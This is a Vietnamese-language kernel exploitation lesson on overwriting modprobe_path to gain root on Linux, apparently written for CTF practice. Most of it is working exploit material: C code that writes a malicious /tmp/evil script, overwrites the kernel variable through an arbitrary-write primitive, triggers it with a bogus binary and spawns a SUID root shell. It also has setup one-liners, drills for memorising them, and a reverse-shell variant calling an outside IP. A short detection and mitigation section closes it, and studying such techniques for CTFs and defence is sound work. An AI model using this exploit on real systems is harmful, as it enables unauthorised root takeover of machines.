

> **Prerequisites**: [[09-exploit-primitives|09. Exploit Primitives]] · [[12-rop-chains-kernel|12. ROP Chains]]
> **Objectives**:
> - Hiểu `modprobe_path` là gì và tại sao overwrite nó dẫn đến root code execution
> - Thực hiện modprobe trick chỉ với một AAW primitive đơn giản
> - Tự động hóa trigger để không cần tương tác thủ công
> - Phân biệt khi nào dùng modprobe trick vs cred patching vs ROP
>
---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Có AAW primitive tại một địa chỉ kernel tùy chọn
> - Đã bypass KASLR để biết địa chỉ `modprobe_path` symbol
> - Có thể tạo file thực thi tùy ý trong filesystem (thường `/tmp/`)
> - Có thể trigger kernel module load attempt (thường dễ — chỉ cần execute file với magic bytes lạ)
>
> [!tip] Đây là cách escalate nhanh và đơn giản nhất khi có AAW
> Không cần ROP chain, không cần KPTI bypass, không cần save_state(). Chỉ cần một lần ghi vào địa chỉ cố định.
>
---

## Cơ chế tấn công

### modprobe_path là gì?

`modprobe_path` là một global variable trong kernel, lưu đường dẫn đến chương trình `modprobe` — công cụ load kernel modules:

```c
// kernel/kmod.c
char modprobe_path[KMOD_PATH_LEN] = "/sbin/modprobe";
```

Khi kernel gặp file có magic bytes không nhận dạng được (ví dụ: bạn `execve()` một binary có header `\xff\xff\xff\xff`), kernel cố tự động load kernel module tương ứng. Để làm vậy, nó gọi chương trình tại `modprobe_path` với root privileges.

**Chuỗi thực thi:**

```text
user execve("/tmp/bogus")       ← binary với header không hợp lệ
    ↓
kernel: không nhận dạng được format
    ↓
kernel gọi: call_modprobe("/tmp/bogus")
    ↓
kernel spawn subprocess: modprobe_path "/tmp/bogus"
    ↓
[Nếu modprobe_path = "/tmp/evil"]
kernel chạy: /tmp/evil "/tmp/bogus"   ← với UID=0, context kernel!
```

### Exploit flow

```bash
1. Overwrite modprobe_path → "/tmp/evil"
2. Tạo /tmp/evil: script copy flag / spawn shell / add SUID
3. Tạo /tmp/bogus: file với 4 bytes magic (\xff\xff\xff\xff)
4. chmod +x /tmp/bogus
5. Execute /tmp/bogus → kernel gọi /tmp/evil với root
6. Root command đã chạy!
```

---

## Quy trình tấn công

**Môi trường**: Kernel module với AAW primitive. Kernel 5.15, KASLR on.

**Bước 1 — Tìm địa chỉ modprobe_path**

```bash
# Từ /proc/kallsyms (nếu có quyền đọc):
grep "modprobe_path" /proc/kallsyms
# ffffffff82638c40 D modprobe_path

# Từ vmlinux:
nm vmlinux | grep "modprobe_path"
# ffffffff81638c40 D modprobe_path  ← địa chỉ khi KASLR off

# Sau KASLR bypass:
unsigned long modprobe_path_addr = kernel_base + MODPROBE_PATH_OFFSET;
```

**Bước 2 — Chuẩn bị evil script và trigger file**

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>

void prepare_files() {
    // Evil script: tạo SUID shell copy
    FILE *f = fopen("/tmp/evil", "w");
    fprintf(f, "#!/bin/sh\n");
    fprintf(f, "cp /bin/bash /tmp/rootbash\n");
    fprintf(f, "chmod 4755 /tmp/rootbash\n");  // SUID bit
    fclose(f);
    chmod("/tmp/evil", 0777);

    // Bogus file với magic bytes không hợp lệ
    f = fopen("/tmp/bogus", "wb");
    unsigned char magic[] = {0xff, 0xff, 0xff, 0xff};
    fwrite(magic, 1, sizeof(magic), f);
    fclose(f);
    chmod("/tmp/bogus", 0777);

    printf("[*] /tmp/evil and /tmp/bogus created\n");
}
```

> **Expected output**: Hai file được tạo, `/tmp/evil` có execute permission.
>
**Bước 3 — Overwrite modprobe_path bằng AAW**

```c
void overwrite_modprobe_path(unsigned long modprobe_path_addr) {
    const char *evil_path = "/tmp/evil";
    size_t len = strlen(evil_path) + 1;  // include null terminator

    // Ghi từng byte (hoặc từng 8 bytes nếu AAW64 available)
    // Cách an toàn: ghi byte-by-byte hoặc dùng AAW có size
    for (size_t i = 0; i < len; i += 8) {
        unsigned long chunk = 0;
        memcpy(&chunk, evil_path + i, min(8, len - i));
        AAW64(modprobe_path_addr + i, chunk);
    }
    printf("[*] modprobe_path overwritten with /tmp/evil\n");
}
```

> **Expected output**: Không crash — ghi thành công vào kernel memory.
>
**Bước 4 — Trigger: execute bogus binary**

```c
void trigger_modprobe() {
    // Fork để trigger module load
    pid_t pid = fork();
    if (pid == 0) {
        // Child process: execute bogus binary
        // Kernel sẽ không nhận ra format → gọi modprobe_path
        execve("/tmp/bogus", (char*[]){"/tmp/bogus", NULL}, NULL);
        exit(0);  // Không bao giờ tới đây
    }
    // Parent: đợi child
    int status;
    waitpid(pid, &status, 0);
    // Child exit với status khác 0 (execve fail) là bình thường
    printf("[*] Triggered modprobe call\n");
}
```

**Bước 5 — Verify và escalate**

```c
void escalate() {
    // Kiểm tra /tmp/rootbash đã được tạo với SUID chưa
    struct stat st;
    if (stat("/tmp/rootbash", &st) == 0 && (st.st_mode & S_ISUID)) {
        printf("[+] SUID bash created! Spawning root shell...\n");
        execve("/tmp/rootbash", (char*[]){"/tmp/rootbash", "-p", NULL}, NULL);
    } else {
        printf("[-] /tmp/rootbash not created, trigger failed\n");
    }
}
```

> **Expected output**: SUID bash tại `/tmp/rootbash`, sau đó root shell khi exec với `-p`.
>
---

## Biến thể & Bypass

### Thay vì SUID bash — reverse shell

```bash
#!/bin/sh
# /tmp/evil — reverse shell variant
bash -i >& /dev/tcp/10.10.14.1/4444 0>&1 &
```

### Thay vì SUID bash — đọc flag trực tiếp

```bash
#!/bin/sh
# /tmp/evil — CTF flag reader
cat /root/flag.txt > /tmp/flag_output
chmod 777 /tmp/flag_output
```

### Khi AAW chỉ ghi được 1 lần (limited)

Nếu chỉ có một lần ghi: `modprobe_path` thường là 14 chars (`/sbin/modprobe`). Evil path phải ngắn hơn hoặc bằng `KMOD_PATH_LEN = 256`. Không cần ghi null terminator nếu `/tmp/evil` kết thúc tại ký tự đúng vị trí.

### Trong container (hạn chế)

`/tmp/evil` phải accessible từ host namespace để kernel (chạy trong host) execute được. Nếu đang trong container với isolated filesystem, cần tìm path accessible từ cả container và host — thường là một bind-mount.

---

## Cây quyết định



---

## Command Cheatsheet

**Tìm modprobe_path offset**

```bash
nm vmlinux | grep "D modprobe_path"
# → ffffffff81638c40 D modprobe_path
# OFFSET = 0xffffffff81638c40 - 0xffffffff81000000 = 0x638c40
```

**Script setup (3 lệnh)**

```bash
# Trên target (sau khi có shell):
echo -e '#!/bin/sh\ncp /bin/bash /tmp/r; chmod 4755 /tmp/r' > /tmp/evil; chmod +x /tmp/evil
printf '\xff\xff\xff\xff' > /tmp/bogus; chmod +x /tmp/bogus
# [Trigger exploit để overwrite modprobe_path]
/tmp/r -p   # → root shell
```

**AAW overwrite one-liner pattern**

```c
// Ghi string vào kernel address, 8 bytes at a time:
void write_str_to_kernel(unsigned long addr, const char *str) {
    for (int i = 0; str[i] || i == 0; i += 8) {
        unsigned long v = 0;
        memcpy(&v, str + i, strnlen(str + i, 8));
        AAW64(addr + i, v);
    }
}
write_str_to_kernel(modprobe_path_addr, "/tmp/evil");
```

---

## Daily Drill

**Thời gian**: 10 phút/ngày trong 5 ngày.

**Drill 1 — Setup files từ nhớ**
Mục tiêu: Tạo `/tmp/evil` và `/tmp/bogus` không nhìn cheatsheet.

```bash
echo -e '#!/bin/sh\ncp /bin/bash /tmp/r; chmod 4755 /tmp/r' > /tmp/evil
chmod +x /tmp/evil
printf '\xff\xff\xff\xff' > /tmp/bogus; chmod +x /tmp/bogus
```

Luyện cho đến khi: 3 lệnh setup gõ ra trong 30 giây.

**Drill 2 — Trigger và verify**
Mục tiêu: Từ `fork+execve` đến `/tmp/r -p` thành root, không nhìn code.

Luyện cho đến khi: flow trigger → verify → escalate thuần thục.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Audit**: `execve` của một binary không được nhận dạng (kết thúc với ENOEXEC) từ non-root user
> **Process**: Kernel spawning `/tmp/evil` hoặc bất kỳ path nào ngoài `/sbin/` với UID=0
> **Integrity**: `modprobe_path` value khác `/sbin/modprobe` → IMA/AIDE alert
>
> [!note] Mitigation
> - Mount `/tmp` với `noexec` option → không thể execute từ `/tmp`
> - Kernel lockdown mode: hạn chế write vào critical kernel variables
> - `CONFIG_STATIC_USERMODEHELPER=y` — lock `modprobe_path` không thể thay đổi
> - IMA (Integrity Measurement Architecture) để detect kernel data tampering
>
---

## Lab Thực hành

| Platform | Challenge | Tại sao phù hợp |
|----------|-----------|----------------|
| pawnyable.cafe | Bất kỳ Holstein variant | Thử modprobe trick sau khi có AAW |
| CTF | Kernel challenges có AAW primitive | Nhanh hơn ROP chain trong CTF |
| Local | Custom module AAW | Luyện toàn bộ flow end-to-end |

---

## Field Manual Entry

> [!abstract] modprobe_path Overwrite — Quick Reference
> **Điều kiện**: AAW primitive + KASLR bypass; có `/tmp` writeable+executable
> **Setup**: `echo '#!/bin/sh\ncp /bin/bash /tmp/r;chmod 4755 /tmp/r' > /tmp/evil; chmod +x /tmp/evil`
> **Bogus file**: `printf '\xff\xff\xff\xff' > /tmp/bogus; chmod +x /tmp/bogus`
> **AAW**: `write_str(modprobe_path_addr, "/tmp/evil")` — offset từ `nm vmlinux | grep modprobe_path`
> **Trigger**: `fork() + execve("/tmp/bogus")` → kernel gọi `/tmp/evil` với root
> **Escalate**: `/tmp/r -p` → root shell
> **Ref**: [[14-modprobe-path-overwrite|14. modprobe_path Overwrite]]
>